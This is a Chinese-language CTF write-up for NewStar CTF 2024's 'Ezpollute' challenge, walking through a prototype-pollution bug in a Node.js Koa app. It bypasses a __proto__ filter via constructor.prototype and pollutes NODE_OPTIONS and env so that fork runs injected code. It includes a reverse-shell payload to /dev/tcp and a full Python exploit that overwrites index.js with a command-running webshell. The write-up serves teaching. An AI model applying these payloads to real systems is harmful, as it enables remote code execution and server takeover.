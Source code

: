 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# Ezpollute

根据题目名称可知，这是一道 JavaScript 的原型链污染题

查看部署文件，可以得知 Node.js 版本为 16，并且使用了 `node-dev` 热部署启动

![Dockerfile](/assets/images/wp/2024/week4/ezpollute_1.png)

审计 `index.js`， `/config` 路由下调用了 `merge` 函数， `merge` 函数意味着可能存在的原型链污染漏洞

```javascript
router.post('/config', async (ctx) => {
    jsonData = ctx.request.rawBody || "{}"
    token = ctx.cookies.get('token')
    if (!token) {
        return ctx.body = {
            code: 0,
            msg: 'Upload Photo First',
        }
    }
    const [err, userID] = decodeToken(token)
    if (err) {
        return ctx.body = {
            code: 0,
            msg: 'Invalid Token',
        }
    }
    userConfig = JSON.parse(jsonData)
    try {
        finalConfig = clone(defaultWaterMarkConfig)
        // 这里喵
        merge(finalConfig, userConfig)
        fs.writeFileSync(path.join(__dirname, 'uploads', userID, 'config.json'), JSON.stringify(finalConfig))
        ctx.body = {
            code: 1,
            msg: 'Config updated successfully',
        }
    } catch (e) {
        ctx.body = {
            code: 0,
            msg: 'Some error occurred',
        }
    }
})
```

`merge` 函数在 `/util/merge.js` 中，虽然过滤了 `proto`，但我们可以通过 `constructor.prototype` 来绕过限制

```javascript
// /util/merge.js
function merge(target, source) {
    if (!isObject(target) || !isObject(source)) {
        return target
    }
    for (let key in source) {
        if (key === "__proto__") continue
        if (source[key] === "") continue
        if (isObject(source[key]) && key in target) {
            target[key] = merge(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
    return target
}
```

`/process` 路由调用了 `fork`，创建了一个 JavaScript 子进程用于水印添加

```javascript
try {
        await new Promise((resolve, reject) => {

            // 这里喵
            const proc = fork(PhotoProcessScript, [userDir], { silent: true })

            proc.on('close', (code) => {
                if (code === 0) {
                    resolve('success')
                } else {
                    reject(new Error('An error occurred during execution'))
                }
            })

            proc.on('error', (err) => {
                reject(new Error(`Failed to start subprocess: ${err.message}`))
            })
        })
        ctx.body = {
            code: 1,
            msg: 'Photos processed successfully',
        }
    } catch (error) {
        ctx.body = {
            code: 0,
            msg: 'some error occurred',
        }
    }
```

结合之前的原型链污染漏洞，我们污染 `NODE_OPTIONS` 和 `env`，在 `env` 中写入恶意代码，`fork` 在创建子进程时就会首先加载恶意代码，从而实现 RCE

```python
payload = {
    "constructor": {
        "prototype": {
            "NODE_OPTIONS": "--require /proc/self/environ",
            "env": {
                 "A":"require(\"child_process\").execSync(\"bash -c \'bash -i >& /dev/tcp/ip/port 0>&1\'\")//"
            }
        }
    }
}
# 需要注意在 Payload 最后面有注释符 `//`，这里的思路跟 SQL 注入很像
```

考虑到新生可能没有云服务器来反弹 shell，因此在赛题设计时选择了热部署启动

除了弹 shell，还可以通过写 WebShell 覆盖 `index.js`，从而实现有回显 RCE，或者把 flag 输出到 `static` 目录下读也可以

比赛时题目环境并没有出网，弹不了 shell，只能通过后两种方式来做，这里给出写 WebShell 的做法

:::tip 热部署
就是在应用正在运行的时候升级软件，却不需要重新启动应用
:::

```python
import requests
import re
import base64
from time import sleep

url = "http://url:port"

# 获取 token
# 随便发送点图片获取 token
files = [
    ('images', ('anno.png', open('./1.png', 'rb'), 'image/png')),
    ('images', ('soyo.png', open('./2.png', 'rb'), 'image/png'))
]
res = requests.post(url + "/upload", files=files)
token = res.headers.get('Set-Cookie')
match = re.search(r'token=([a-f0-9\-\.]+)', token)
if match:
    token = match.group(1)
    print(f"[+] token: {token}")
headers = {
    'Cookie': f'token={token}'
}

# 通过原型链污染 env 注入恶意代码即可 RCE

# 写入 WebShell
webshell = """
const Koa = require('koa')
const Router = require('koa-router')
const app = new Koa()
const router = new Router()

router.get("/webshell", async (ctx) => {
    const {cmd} = ctx.query
    res = require('child_process').execSync(cmd).toString()
    return ctx.body = {
        res
    }
})

app.use(router.routes())
app.listen(3000, () => {
    console.log('http://127.0.0.1:3000')
})
"""

# 将 WebShell 内容 Base64 编码
encoded_webshell = base64.b64encode(webshell.encode()).decode()

# Base64 解码后写入文件
payload = {
    "constructor": {
        "prototype": {
            "NODE_OPTIONS": "--require /proc/self/environ",
            "env": {
                "A": f"require(\"child_process\").execSync(\"echo {encoded_webshell} | base64 -d > /app/index.js\")//"
            }
        }
    }
}

# 原型链污染
requests.post(url + "/config", json=payload, headers=headers)

# 触发 fork 实现 RCE
try:
    requests.post(url + "/process", headers=headers)
except Exception as e:
    pass

sleep(2)
# 访问有回显的 WebShell
res = requests.get(url + "/webshell?cmd=cat /flag")
print(res.text)
```
